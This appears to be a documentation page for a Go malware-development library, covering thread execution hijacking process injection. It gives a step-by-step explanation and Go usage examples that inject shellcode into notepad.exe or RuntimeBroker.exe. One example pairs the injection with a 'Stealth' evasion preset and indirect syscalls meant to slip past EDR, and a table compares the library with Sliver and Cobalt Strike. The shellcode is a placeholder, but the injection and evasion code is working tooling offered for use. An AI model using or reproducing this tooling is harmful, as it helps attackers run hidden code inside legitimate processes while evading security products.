

# Thread Execution Hijacking

> **MITRE ATT&CK:** T1055.003 -- Process Injection: Thread Execution Hijacking | **D3FEND:** D3-PSA -- Process Spawn Analysis | **Detection:** Medium

## For Beginners

Picture a runner in the middle of a race. You press a "freeze" button and the runner stops mid-stride. While they are frozen, you swap their destination card -- instead of running to the finish line, their card now says "run to the coffee shop." You press "unfreeze" and the runner continues running, but now they head to the coffee shop instead of the finish line, never realizing the switch happened.

Thread execution hijacking does exactly this to a thread in a target process. You create a suspended process, get the thread's context (which includes the instruction pointer -- the "destination card"), write your shellcode into the process's memory, change the instruction pointer to point at your shellcode, and resume the thread. The thread was going to execute the process entry point, but now it executes your shellcode first.

Unlike CreateRemoteThread, no new thread is created. Unlike Early Bird APC, no APC is queued. The existing thread is redirected at the CPU register level. This makes the technique harder for EDR to detect through thread-creation monitoring, though `SetThreadContext` calls are themselves monitored.

## How It Works



**Step-by-step:**

1. **CreateProcess(CREATE_SUSPENDED)** -- Spawn a sacrificial process with its main thread frozen.
2. **Allocate + Write** -- `NtAllocateVirtualMemory` (RW), `NtWriteVirtualMemory`, `NtProtectVirtualMemory` (RX) to place shellcode in the child.
3. **NtGetContextThread** -- Read the thread's full register state, including the RIP (instruction pointer on x64).
4. **Modify RIP** -- Set `ctx.Rip` to the address of the shellcode in remote memory.
5. **NtSetContextThread** -- Write the modified context back, redirecting the thread.
6. **ResumeThread** -- Resume execution. The thread starts at the shellcode address instead of the original entry point.

## Usage

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    cfg := &inject.WindowsConfig{
        Config: inject.Config{
            Method:      inject.MethodThreadHijack,
            ProcessPath: `C:\Windows\System32\notepad.exe`,
        },
    }
    injector, err := inject.NewWindowsInjector(cfg)
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Combined Example

```go
package main

import (
    "log"

    "github.com/oioio-space/maldev/evasion"
    "github.com/oioio-space/maldev/evasion/preset"
    "github.com/oioio-space/maldev/inject"
)

func main() {
    shellcode := []byte{0x90, 0x90, 0xCC}

    // 1. Apply evasion.
    evasion.ApplyAll(preset.Stealth(), nil)

    // 2. Thread hijack with indirect syscalls.
    injector, err := inject.Build().
        Method(inject.MethodThreadHijack).
        ProcessPath(`C:\Windows\System32\RuntimeBroker.exe`).
        IndirectSyscalls().
        Create()
    if err != nil {
        log.Fatal(err)
    }
    if err := injector.Inject(shellcode); err != nil {
        log.Fatal(err)
    }
}
```

## Advantages & Limitations

| Aspect | Detail |
|--------|--------|
| Stealth | Medium -- no new thread created, but `NtSetContextThread` is monitored by EDR. |
| Thread creation | Zero. Existing thread is redirected. |
| Execution guarantee | High -- the thread will execute at the new RIP when resumed. No alertable-wait dependency. |
| Compatibility | x64 only in current implementation (uses `CONTEXT.Rip`). Windows 7+. |
| Limitations | Requires `THREAD_GET_CONTEXT | THREAD_SET_CONTEXT` access. Creates a visible child process. The original entry point code never runs (process may appear broken if shellcode does not hand off). `NtSetContextThread` is a high-signal indicator for EDR. |

## Compared to Other Implementations

| Feature | maldev | Sliver | CobaltStrike | D3Ext/maldev |
|---------|--------|--------|--------------|--------------|
| Caller-routed NT APIs | Yes | No | N/A | No |
| Configurable host process | Yes (`ProcessPath`) | Yes | spawnto | No |
| Context manipulation | `NtGetContextThread`/`NtSetContextThread` via Caller | Direct | Built-in | Direct |
| Builder pattern | Yes | Config | Profile | Function |
| x86 support | Not yet | Yes | Yes | No |

## API Reference

```go
// Method constant
const MethodThreadHijack Method = "threadhijack"

// Legacy alias (deprecated)
const MethodProcessHollowing = MethodThreadHijack

// Builder pattern
injector, err := inject.Build().
    Method(inject.MethodThreadHijack).
    ProcessPath(`C:\Windows\System32\notepad.exe`).
    IndirectSyscalls().
    Create()

// Config pattern
cfg := &inject.WindowsConfig{
    Config: inject.Config{
        Method:      inject.MethodThreadHijack,
        ProcessPath: `C:\Windows\System32\notepad.exe`,
    },
    SyscallMethod: wsyscall.MethodIndirect,
}
injector, err := inject.NewWindowsInjector(cfg)
```
